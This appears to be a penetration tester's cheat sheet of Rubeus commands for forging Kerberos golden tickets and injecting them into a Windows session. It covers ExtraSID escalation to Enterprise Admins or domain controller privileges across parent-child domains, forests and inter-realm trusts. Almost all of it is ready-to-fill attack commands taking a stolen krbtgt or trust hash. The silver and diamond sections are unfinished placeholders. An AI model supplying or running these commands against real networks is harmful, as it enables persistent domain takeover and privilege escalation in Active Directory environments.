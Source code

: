 # rubeus

% ad, windows, rubeus

#plateform/windows #target/local 

## golden - ptt
#cat/ATTACK/EXPLOIT 
```powershell
.\Rubeus.exe golden /user:<user> /ldap /rc4:<krbtgt_nthash> /endtime:5d /nowrap  /printcmd /ptt
```


## golden - ExtraSID (parent-child) 
```powershell
.\Rubeus.exe golden /user:<user> /ldap /rc4:<krbtgt_nthash> /sids:<dst_domain_sid>-<rid|519> /endtime:5d /nowrap  /printcmd /ptt
```

## golden - ExtraSID (parent-child) (dc account)
#cat/ATTACK/EXPLOIT 
```powershell
.\Rubeus.exe golden /user:<dc_name>$ /ldap /rc4:<krbtgt_nthash> /sids:<dst_domain_sid>-<rid|516> /endtime:5d /nowrap  /printcmd /ptt
```

## golden - ExtraSID (cross-forest)
#cat/ATTACK/EXPLOIT 
```powershell
.\Rubeus.exe golden /user:<user> /ldap /rc4:<krbtgt_nthash> /sids:<dst_domain_sid>-<rid> /endtime:5d /nowrap  /printcmd /ptt
```

## golen - Inter-Realm TGT  
```
.\Rubeus.exe golden /user:<user> /ldap /rc4:<trust_nthash> /sids:<dst_domain_sid>-<rid> /endtime:5d /nowrap  /printcmd /ptt
```

## silver - to do
#cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe silver XXXXXXXXXXXXXXXX
```

## diamond - to do
#cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe diamond XXXXXXXXXXXXXXXX
```
